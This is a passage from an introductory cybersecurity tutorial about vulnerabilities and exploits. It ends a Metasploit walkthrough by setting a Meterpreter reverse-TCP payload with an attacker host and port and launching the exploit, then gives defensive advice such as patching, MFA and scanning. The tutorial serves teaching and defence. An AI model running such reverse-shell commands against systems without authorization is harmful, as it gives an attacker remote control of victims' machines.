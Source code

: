 They select a payload that will open a reverse shell on the target:

```sh
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5   # The attacker's machine
set LPORT 4444          # The port to listen on
```

### Step 6: Launch the Exploit

Finally, they execute the attack:

```sh
exploit
```

If successful, this provides a **Meterpreter shell**, allowing full control over the target system.

Using Metasploit, an attacker can scan a system for vulnerabilities, select an exploit, choose a payload, and execute the attack — all in a few simple commands.

This is why both ethical hackers and cybercriminals widely use Metasploit. [**Here is a full tutorial on Metasploit**](/freecodecamp.org/learn-metasploit-for-beginners.md) if you’d like to know more about how you can use it as an ethical hacker.

---

## How to Stay Protected?

Understanding vulnerabilities and exploits is the first step in defending against cyber threats. Here are some key strategies to protect yourself:

1. **Keep software updated** — Install security patches as soon as they are released.
2. **Use strong passwords** — Avoid using default or weak passwords. Implement multi-factor authentication (MFA) where possible.
3. **Scan your systems regularly** — Use tools like Nessus or OpenVAS to check for vulnerabilities.
4. **Monitor exploit databases** — Stay aware of new vulnerabilities that might affect your systems.
5. **Use security tools** — Firewalls, intrusion detection systems, and endpoint security software can help prevent exploits from succeeding.

---

## Conclusion

Vulnerabilities are weaknesses in software or hardware, while exploits are the methods attackers use to take advantage of them. Some exploits are well-known and documented, while others, like zero-day attacks, appear suddenly and without warning.

By understanding how exploits work and staying vigilant with security updates, you can reduce the risk of becoming a target. Cybersecurity is an ongoing battle, and the best defense is staying informed and proactive.

::: info

Join our [<VPIcon icon="fas fa-globe"/>weekly newsletter](https://newsletter.stealthsecurity.sh/) to get more cybersecurity tutorials delivered to you every Friday. To learn hands-on offensive cybersecurity in five days, check out the [<VPIcon icon="fas fa-globe"/>Security Starter](https://start.stealthsecurity.sh/) course.
